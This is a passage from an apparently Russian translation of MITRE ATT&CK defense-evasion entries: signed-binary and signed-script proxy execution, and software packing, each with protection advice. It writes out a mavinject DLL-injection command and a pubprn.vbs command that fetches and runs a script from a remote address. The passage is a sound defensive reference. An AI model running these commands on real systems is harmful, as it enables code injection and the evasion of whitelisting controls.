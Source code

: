### [Прокси-выполнение кода через подписанные бинарники (Signed Binary Proxy Execution)](https://attack.mitre.org/wiki/Technique/T1218)

_Система:_ Windows  
_Права:_ Пользователь  
_Описание:_ Бинарные файлы, подписанные доверенными цифровыми сертификатами, могут выполняться в системах Windows, защищенных проверкой цифровой подписи. Несколько файлов Microsoft, подписанных по умолчанию при установке Windows, могут быть использованы для проксирования запуска других файлов:

• Mavinject.exe — это утилита Windows, которая позволяет выполнять код. Mavinject может использоваться для ввода DLL в запущенный процесс:  
_«C:\\Program Files\\Common Files\\microsoft shared\\ClickToRun\\MavInject32.exe» \[PID\] /INJECTRUNNING \[PATH DLL\];_  
_C:\\Windows\\system32\\mavinject.exe \[PID\] /INJECTRUNNING \[PATH DLL\];_  
• SyncAppvPublishingServer.exe — может использоваться для запуска powershell-скриптов без запуска powershell.exe.  
Существует ещё _[несколько аналогичных бинарников](https://github.com/api0cradle/UltimateAppLockerByPassList)_.

_Рекомендации по защите:_ Многие подписанные файлы могут не использоваться в вашей системе, поэтому рассмотрите возможность блокирования их запуска.

### [Прокси-выполнение кода через подписанные сценарии (Signed Script Proxy Execution)](https://attack.mitre.org/wiki/Technique/T1216)

_Система:_ Windows  
_Права:_ Пользователи  
_Описание:_ Скрипты, подписанные доверенными сертификатами, могут использоваться для проксирования вредоносных файлов, например, файл _PubPrn.vbs_ подписан сертификатом Microsoft и может использоваться для запуска файла с удаленного сервера:  
_cscript C:\\Windows\\System32\\Printing\_Admin\_Scripts\\ru-RU\\pubprn.vbs 127.0.0.1 script:http\[:\]//192.168.1.100/hi.png_

_Рекомендации по защите:_ Подобные подписанные скрипты могут не требоваться в вашей системе, поэтому рассмотрите возможность блокирования их запуска.

### [Упаковка софта (Software Packing)](https://attack.mitre.org/wiki/Technique/T1045)

_Система:_ Windows  
_Описание:_ Упаковка программ предполагает применение противником методов сжатия или шифрования исполняемых файлов, в результате которых меняется контрольная сумма файла, что позволяет избежать обнаружения на основе поиска статических сигнатур. Большинство методов декомпрессии распаковывают исполняемый код в памяти. Примерами популярных утилит — упаковщиков исполняемых файлов являются MPRESS и UPS, однако известно целое множество других упаковщиков, кроме того, противники могут создавать свои собственные методы упаковки, которые не будут оставлять такие артефакты, как и известные упаковщики. Упаковка исполняемых файлов не является однозначным индикатором вредоносных программ, поскольку разработчики законного ПО могут применять методы упаковки для уменьшения размера дистрибутива или защиты проприетарного кода.

_Рекомендации по защите:_ Обновляйте средства антивирусной защиты, создавайте пользовательские сигнатуры для обнаружения вредоносных программ, применяйте эвристические методы обнаружения. Идентифицируйте и блокируйте потенциально-опасное ПО.
